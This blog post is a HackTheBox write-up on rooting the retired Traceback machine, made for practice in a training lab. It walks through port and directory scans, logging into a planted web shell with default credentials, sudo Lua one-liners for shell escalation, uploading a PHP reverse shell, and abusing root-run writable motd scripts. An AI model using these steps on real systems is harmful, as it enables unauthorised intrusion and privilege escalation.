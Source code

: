 ```yaml
---
layout: post
title: "Writeup: HackTheBox Traceback - NO Metasploit"
description: "Rooting Traceback without using Metasploit."
tags: pentest hackthebox writeup
---
```


This series will follow my exercises in [HackTheBox][].
All published writeups are for retired HTB machines.
Whether or not I use Metasploit to pwn the server will be indicated in the title.
 
# Traceback

_<small>Difficulty: Easy</small>_

_<small>Machine IP: 10.10.10.181</small>_

I kick things off with a port scan.

```bash
sudo nmap -sS -T4 -p- 10.10.10.181
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-09 00:35 EDT                                                  
Nmap scan report for 10.10.10.181                                                                                
Host is up (0.019s latency).                                                                                     
Not shown: 65533 closed ports                                                                                    
PORT   STATE SERVICE                                                                                             
22/tcp open  ssh                                                                                                 
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.56 seconds
```

```bash
sudo nmap -sT -T4 -p22,80 -A -sC -sV 10.10.10.181
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-09 00:36 EDT
Nmap scan report for 10.10.10.181
Host is up (0.015s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.18 (94%), Linux 3.16 (93%), ASUS RT-N56U WAP (Linux 3.4) (93%), Oracle VM Server 3.4.2 (Linux 4.1) (93%), Android 4.1.1 (93%), Adtran 424RG FTTH gateway (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   23.83 ms 10.10.14.1
2   16.39 ms 10.10.10.181
```

All right, a web server.

[gobuster][] doesn't turn up anything.

```bash
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 20 -u http://10.10.10.181/ -x txt,php
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 30 -u http://10.10.10.181 -x txt,php
```

Navigating to `http://10.10.10.181/` brings up a page with the following message:

> This site has been owned
>
> I have left a backdoor for all the net. FREE INTERNETZZZ
>
> Xh4H -

The source of the page includes the comment:

```html
<!--Some of the best web shells that you might need ;)-->
```

Searching the internet for `Xh4H` brings up [this tweet][]:

> Pretty interesting collection of webshells: https://t.co/gRllNN08zt
>
> — Xh4H (@RiftWhiteHat) March 10, 2020

That brings me to <https://github.com/TheBinitGhimire/Web-Shells>.
I compile a wordlist of web shell endpoints and run them through `gobuster`.
This time I get a hit!

```bash
gobuster dir -w webshells.txt -u http://10.10.10.181
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.181
[+] Threads:        10
[+] Wordlist:       webshells.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/09 00:53:10 Starting gobuster
===============================================================
/smevk.php (Status: 200)
===============================================================
2020/06/09 00:53:10 Finished
===============================================================
```

Navigating to that URL brings up a web shell login page.
Looking at the [web shell source][], I see the credentials are `admin / admin`.
This logs me in.
I can run commands through the web shell, but I cannot trigger netcat.

![webshell commands][]

I opt for some information gathering before creating a full reverse shell through this web shell.
I am running as the `webadmin` user.
There is another user on the system as well, `sysadmin`.
In the `webadmin`'s directory, I find a note:

![webadmin note][]

A tool somewhere that lets me invoke Lua, huh?
I check `webadmin`'s bash history and find the location of the script:

![webadmin history][]

`/home/sysadmin/luvit` it is.
And it looks like `webadmin` has permission to run the script:

![webadmin sudo][]

[GTFOBins][lua gtfobin] has some suggestions on how to use Lua for my purposes.
I can read the user flag with:

```bash
sudo -u sysadmin /home/sysadmin/luvit -e 'local f=io.open("/home/sysadmin/user.txt", "rb"); print(f:read("*a")); io.close(f);'
```

Now for the reverse shell.
Instead of figuring out a Lua one-liner, I opt to upload a PHP reverse shell (like `/use/share/webshells/php/php-reverse-shell.php` that is included on Kali) to the web server using the `smevk` web shell.
This gives me a `webadmin` user shell.
With a TTY shell, I can escalate my privileges to `sysadmin` by running:

```bash
sudo -u sysadmin /home/sysadmin/luvit -e 'os.execute("/bin/bash -i")'
```

I check to see what files `sysadmin` can access on the server:

```bash
find / -type f -user sysadmin 2>/dev/null | grep -v '/proc/'

/home/sysadmin/.bashrc
/home/sysadmin/luvit
/home/sysadmin/.bash_logout
/home/sysadmin/.ssh/authorized_keys
/home/sysadmin/.cache/motd.legal-displayed
/home/sysadmin/.bash_history
/home/sysadmin/user.txt
/home/sysadmin/.profile
/home/webadmin/note.txt
```

`/home/sysadmin/.cache/motd.legal-displayed` is unusual, but otherwise not interesting.
I also run [LinEnum][] which highlights an interesting process that seems related to this file.

![motd cron][]

It appears that every 30 seconds, `root` updates the `motd` content.
`motd` handles the banner messages when you ssh onto a system.
Since I am `sysadmin`, I can go to `/home/sysadmin/.ssh/authorized_keys` and add my public key.
SSHing onto the system, I see the following banner message:

![motd login][]

I see this message comes from the `/etc/update-motd.d/00-header` file.

![motd original][]

`sysadmin` has write access to these files.

```bash
sysadmin@traceback:/etc/update-motd.d$ ls -l
total 24
-rwxrwxr-x 1 root sysadmin  981 Jun  8 23:17 00-header
-rwxrwxr-x 1 root sysadmin  982 Jun  8 23:17 10-help-text
-rwxrwxr-x 1 root sysadmin 4264 Jun  8 23:17 50-motd-news
-rwxrwxr-x 1 root sysadmin  604 Jun  8 23:17 80-esm
-rwxrwxr-x 1 root sysadmin  299 Jun  8 23:17 91-release-upgrade
```

I should be able to get a reverse shell by modifying this `00-header` file, but I couldn't get the syntax correct.
The official Traceback write-up has a payload, it seems.
Instead, I opted to read the root flag.

![motd read root][]

When I next SSH onto the system, I am presented with the root flag.
Remember that root flags are ephemeral these days, so this root flag is no longer valid and attempting to use it may get your HTB account flagged.

![root flag][]

[gobuster]: https://github.com/OJ/gobuster
[hackthebox]: https://www.hackthebox.eu
[linenum]: https://github.com/rebootuser/LinEnum
[lua gtfobin]: https://gtfobins.github.io/gtfobins/lua/
[this tweet]: https://twitter.com/riftwhitehat/status/1237311680276647936?lang=en
[web shell source]: https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php#L14

[motd cron]: /assets/img/htb/traceback/root-updates-motd-cron.png
[motd login]: /assets/img/htb/traceback/ssh-motd-login-message.png
[motd read root]: /assets/img/htb/traceback/motd-read-root-flag.png
[motd original]: /assets/img/htb/traceback/motd-original-header.png
[root flag]: /assets/img/htb/traceback/root-flag.png
[webadmin history]: /assets/img/htb/traceback/lua-location.png
[webadmin note]: /assets/img/htb/traceback/webadmin-note.png
[webadmin sudo]: /assets/img/htb/traceback/webadmin-sudo-perms.png
[webshell commands]: /assets/img/htb/traceback/webshell-run-commands.png
